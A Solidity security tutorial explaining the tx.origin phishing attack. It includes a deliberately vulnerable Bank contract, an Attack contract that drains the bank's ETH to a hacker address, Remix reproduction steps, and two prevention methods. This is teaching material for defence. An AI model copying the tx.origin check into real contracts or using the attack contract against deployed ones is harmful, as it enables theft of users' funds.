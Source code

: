 ```yaml
---
title: S12. tx.origin Phishing Attack
tags:
    - solidity
    - security
    - tx.origin
---
```


# WTF Solidity S12. tx.origin Phishing Attack

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will discuss the `tx.origin` phishing attack and prevention methods in smart contracts.

## `tx.origin` Phishing Attack

When I was in middle school, I loved playing games. However, the game developers implemented an anti-addiction system that only allowed players who were over 18 years old, as verified by their ID card number, to play without restrictions. So, what did I do? I used my parent's ID card number to bypass the system and successfully circumvented the anti-addiction measures. This example is similar to the `tx.origin` phishing attack.

In Solidity, `tx.origin` is used to obtain the original address that initiated the transaction. It is similar to `msg.sender`. Let's differentiate between them with an example.

If User A calls Contract B, and then Contract B calls Contract C, from the perspective of Contract C, `msg.sender` is Contract B, and `tx.origin` is User A. If you are not familiar with the `call` mechanism, you can read [WTF Solidity 22: Call](https://github.com/AmazingAng/WTF-Solidity/blob/main/22_Call/readme.md).

![](./img/S12_1.jpg)

Therefore, if a bank contract uses `tx.origin` for identity authentication, a hacker can deploy an attack contract and then induce the owner of the bank contract to call it. Even if `msg.sender` is the address of the attack contract, `tx.origin` will be the address of the bank contract owner, allowing the transfer to succeed.

## Vulnerable Contract Example

### Bank Contract

Let's take a look at the bank contract. It is very simple and includes an `owner` state variable to record the contract owner. It has a constructor and a `public` function:

- Constructor: Assigns a value to the `owner` variable when the contract is created.
- `transfer()`: This function takes two parameters, `_to` and `_amount`. It first checks `tx.origin == owner` and then transfers `_amount` ETH to `_to`. **Note: This function is vulnerable to phishing attacks!**

```solidity
contract Bank {
    address public owner; // Records the owner of the contract

    // Assigns the value to the owner variable when the contract is created
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // Check the message origin !!! There may be phishing risks if the owner is induced to call this function!
        require(tx.origin == owner, "Not owner");
        // Transfer ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### Attack Contract

Next is the attack contract, which has a simple attack logic. It constructs an `attack()` function to perform phishing and transfer the balance of the bank contract owner to the hacker. It has two state variables, `hacker` and `bank`, to record the hacker's address and the address of the bank contract to be attacked.

It includes `2` functions:

- Constructor: Initializes the `bank` contract address.
- `attack()`: The attack function that requires the `owner` address of the bank contract to call. When the `owner` calls the attack contract, the attack contract calls the `transfer()` function of the bank contract. After confirming `tx.origin == owner`, it transfers the entire balance from the bank contract to the hacker's address.

```solidity
contract Attack {
    // Beneficiary address
    address payable public hacker;
    // Bank contract address
    Bank bank;

    constructor(Bank _bank) {
        // Forces the conversion of the address type _bank to the Bank type
        bank = Bank(_bank);
        // Assigns the beneficiary address to the deployer's address
        hacker = payable(msg.sender);
    }

    function attack() public {
        // Induces the owner of the Bank contract to call, transferring all the balance to the hacker's address
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## Reproduce on `Remix`

**1.** Set the `value` to 10ETH, then deploy the `Bank` contract, and the owner address `owner` is initialized as the deployed contract address.

![](./img/S12-2.jpg)

**2.** Switch to another wallet as the hacker wallet, fill in the address of the bank contract to be attacked, and then deploy the `Attack` contract. The hacker address `hacker` is initialized as the deployed contract address.

![](./img/S12-3.jpg)

**3.** Switch back to the `owner` address. At this point, we were induced to call the `attack()` function of the `Attack` contract. As a result, the balance of the `Bank` contract is emptied, and the hacker's address gains 10ETH.

![](./img/S12-4.jpg)

## Prevention Methods

Currently, there are two main methods to prevent potential `tx.origin` phishing attacks.

### 1. Use `msg.sender` instead of `tx.origin`

`msg.sender` can obtain the address of the direct caller of the current contract. By verifying `msg.sender`, the entire calling process can be protected from external attack contracts.

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 2. Verify `tx.origin == msg.sender`

If you must use `tx.origin`, you can also verify that `tx.origin` is equal to `msg.sender`. This can prevent external contract calls from interfering with the current contract. However, the downside is that other contracts will not be able to call this function.

```solidity
    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");
        require(tx.origin == msg.sender, "can't call by external contract");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
```

## Summary

In this lesson, we discussed the `tx.origin` phishing attack in smart contracts. There are two methods to prevent it: using `msg.sender` instead of `tx.origin`, or checking `tx.origin == msg.sender`. It is recommended to use the first method, as the latter will reject all calls from other contracts.
